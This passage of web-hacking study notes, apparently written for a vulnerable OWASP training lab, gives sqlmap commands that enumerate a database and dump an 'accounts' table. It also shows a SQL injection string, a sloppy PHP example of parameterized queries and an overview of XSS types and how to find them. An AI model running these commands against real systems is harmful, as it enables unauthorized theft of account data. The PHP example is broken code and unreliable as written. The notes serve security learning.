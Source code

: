           sqlmap "target_url" --current_database
* To get tables of our database (owasp10)

          sqlmap "target_url" --tables -D owasp10
* For columns of 'accounts' table

          sqlmap "target_url" --columns -T accounts -D owasp10
* For data of 'accounts' table

          sqlmap "target_url" -T accounts -D owasp10 --dump
         
## ==Preventing== SQL INJECTION
* Filters can be used, but they can be bypassed
* Use black list of commands? stille can be bypassed
* Use whitelist? same issue

Solution
* Use ==parameterized statements==, seperate data from sql code
* eg:-
   
       <?php
       $textbox1 = admin' union select #
       Select * from accounts where username='$textbox1'

       Safe:
       ->prepare("Select * from accounts where username =?")
       ->execute(array('$textbox1')
       
       ?>
* Also allow the users least privileges as possible

## Website hacking - ==Cross Site Scripting Vulns (XSS)==
* It allows an attacker to inject js code into the page
* Code is executed when the page loads
* Code is executed on the ==client== machine not the server

Three main types
1. Persistent/Stored XSS
   * The code that we inject will be stored into the database, so that anytime any user view that page, our code will be executed.
2. Reflected XSS
   * The code will be executed only when the target user runs a specific URL written by us
3. DOM based XSS
   * It results from js code written on the client. So, the code will be interpreted and run on the client side without having any communication with the web server
   * This can be very dangerous, bcz sometimes server applies security and filteration to check for XSS, but in this case, this service won't be available to the client

### Dicovering XSS
Done very similar to SQLI
* Try  to inject js code into the  pages
* Test this in text boxes and url parameters on the form
  http://target.com/page.php?something=something
